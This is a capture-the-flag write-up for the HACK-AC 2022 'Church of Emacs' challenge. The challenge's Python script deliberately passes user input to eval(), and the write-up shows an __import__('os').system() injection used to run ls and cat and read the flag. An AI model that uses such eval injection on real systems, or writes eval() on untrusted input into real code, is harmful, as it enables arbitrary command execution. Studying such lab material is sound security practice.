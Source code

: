 Title: Church of Emacs

Description:

```
halp hoaw 2 eksit vim :<

nc alpha.8059blank.ml 7001
nc beta.8059blank.ml 7001

Author: Lucas
```

Given hint: \_\_import__ is a very cool builtin btw

Given file: [emacs.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Church%20of%20Emacs/emacs.py "emacs.py")

It suggests that we use [\_\_import__ exploit using eval() function vulnerability](https://stackoverflow.com/questions/59519289/python-running-reverse-shell-inside-eval) which can be done. 

emacs.py:

```
print("Hello! Hope you are a vim fan!")

exits = ["q", "q!", "x", "wq", "wq!", "x!"]

while True:
    print(':', end='')
    inp = input()
    if inp in exits:
        print("This isn't vim sadly...")
        continue
    try:
        print(eval(f'exit({inp})'))
    except Exception as e:
        print(e)
```

We can use the exploit to run shell commands because of the vulnerable eval() function.

Let's open the application using netcat first. 

![image](https://user-images.githubusercontent.com/63996033/197686789-cce64da2-4a9e-4651-b443-ea0afc76759a.png)

We see that we can run shell commands using this technique.

![image](https://user-images.githubusercontent.com/63996033/197686873-19d60f7d-8591-43ad-90cf-17b260c652dd.png)

```__import__('os').system('<shell command>')```

The first shell command we can do is 'ls' to list all files in the directory, then 'cat' open the flag file.

![image](https://user-images.githubusercontent.com/63996033/197687098-bf8cc952-65e1-4f6a-b41e-706ddb75a84a.png)

Flag: ACSI{vivivi}

